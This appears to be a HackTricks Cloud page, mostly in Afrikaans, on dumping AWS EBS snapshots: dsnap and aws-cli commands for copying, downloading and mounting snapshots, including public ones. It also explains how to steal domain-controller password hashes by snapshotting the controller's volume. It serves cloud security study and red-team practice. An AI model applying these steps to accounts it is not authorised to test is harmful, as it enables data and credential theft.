 # AWS - EBS Snapshot Dump

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

### Checking a snapshot locally
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
**Let daarop dat dsnap jou nie sal toelaat om openbare oomblikke te aflaai nie. Om dit te omseil, kan jy 'n kopie van die oomblik in jou persoonlike rekening maak en dit aflaai:**
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
Vir meer inligting oor hierdie tegniek, kyk na die oorspronklike navorsing in [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Jy kan dit doen met Pacu deur die module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Kontroleer 'n oomblikopname in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
**Monteer dit in 'n EC2 VM onder jou beheer** (dit moet in dieselfde streek wees as die kopie van die rugsteun):

Stap 1: 'n Nuwe volume van jou verkose grootte en tipe moet geskep word deur na EC2 –> Volumes te gaan.

Om hierdie aksie uit te voer, volg hierdie bevele:
- Skep 'n EBS-volume om aan die EC2-instantie te heg.
- Verseker dat die EBS-volume en die instansie in dieselfde sone is.

Stap 2: Die "heg volume" opsie moet gekies word deur regs te klik op die geskepte volume.

Stap 3: Die instansie uit die instansie tekskas moet gekies word.

Om hierdie aksie uit te voer, gebruik die volgende bevel:
- Heg die EBS-volume.

Stap 4: Teken in op die EC2-instansie en lys die beskikbare skywe met behulp van die bevel `lsblk`.

Stap 5: Kontroleer of die volume enige data het deur die bevel `sudo file -s /dev/xvdf` te gebruik.

As die uitset van die bogenoemde bevel "/dev/xvdf: data" toon, beteken dit dat die volume leeg is.

Stap 6: Formateer die volume na die ext4-lêersisteem met die bevel `sudo mkfs -t ext4 /dev/xvdf`. Alternatiewelik kan jy ook die xfs-formaat gebruik deur die bevel `sudo mkfs -t xfs /dev/xvdf` te gebruik. Let asseblief daarop dat jy óf ext4 óf xfs moet gebruik.

Stap 7: Skep 'n gids van jou keuse om die nuwe ext4-volume te monteer. Byvoorbeeld, jy kan die naam "nuwevolume" gebruik.

Om hierdie aksie uit te voer, gebruik die bevel `sudo mkdir /nuwevolume`.

Stap 8: Monteer die volume na die "nuwevolume" gids met die bevel `sudo mount /dev/xvdf /nuwevolume/`.

Stap 9: Verander die gids na die "nuwevolume" gids en kontroleer die skyfspasie om die volume-mont te valideer.

Om hierdie aksie uit te voer, gebruik die volgende bevele:
- Verander gids na `/nuwevolume`.
- Kontroleer die skyfspasie met die bevel `df -h .`. Die uitset van hierdie bevel moet die vry spasie in die "nuwevolume" gids toon.

Jy kan dit doen met Pacu deur die module `ebs__explore_snapshots`.

### Kontroleer 'n rugsteun in AWS (met behulp van cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### Skadukopie

Enige AWS-gebruiker wat die **`EC2:CreateSnapshot`** toestemming besit, kan die hasjies van alle domein-gebruikers steel deur 'n **skadukopie van die Domein Kontroleerder** te skep, dit aan 'n instansie wat hulle beheer te koppel en die NTDS.dit en SYSTEM-registrieringskern-lêer uit te voer vir gebruik met Impacket se secretsdump projek.

Jy kan hierdie instrument gebruik om die aanval te outomatiseer: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) of jy kan een van die vorige tegnieke gebruik nadat jy 'n skadukopie geskep het.


# Verwysings
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

